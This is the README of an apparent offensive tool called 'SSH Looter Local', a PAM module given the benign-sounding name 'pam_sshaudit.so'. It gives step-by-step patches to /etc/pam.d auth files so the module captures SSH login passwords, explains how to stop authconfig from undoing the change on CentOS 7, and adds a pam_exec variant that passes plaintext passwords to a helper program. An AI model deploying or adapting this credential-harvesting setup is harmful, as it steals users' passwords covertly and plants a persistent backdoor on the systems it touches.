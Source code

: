 # SSH Looter Local

This project cannot be made without reference from:

- https://github.com/mthbernardes/sshLooterC
- https://github.com/cameron-gagnon/ssh_pass_logging
- https://github.com/linux-pam/linux-pam

# Modified Part - License

Licensed under GNU AGPL v3.

# Usage

You may need install dependencies:
- gcc (compiler)
- linux-api-headers (userspace Linux API headers)
- linux-headers (kernel Linux API headers)
- libpam0g-dev

Change `/etc/pam.d/{system,common}-auth`, apply patches like this:

```bash
auth [success=1 default=ignore] pam_unix.so nullok_secure

+ # custom PAM module
+ auth optional pam_sshaudit.so
+ account optional pam_sshaudit.so

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```

# CENTOS 7 Users

Backup and unlink `/etc/pam.d/system-auth`, then remove `/etc/pam.d/system-auth-ac`, copy your backup back and do your change to prevent from being overridden by `authconfig`.

Since `auth sufficient pam_unix.so` is not set as `required`, you must put the `pam_sshaudit.so` line above `pam_unix.so` .

# More simple but obvious way

Use `pam_exec` to record password. Example program written in Golang can be checked in `sshaudit.go`

```bash
auth optional pam_exec.so expose_authtok /usr/bin/sshaudit

auth [success=1 default=ignore] pam_unix.so nullok_secure

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```
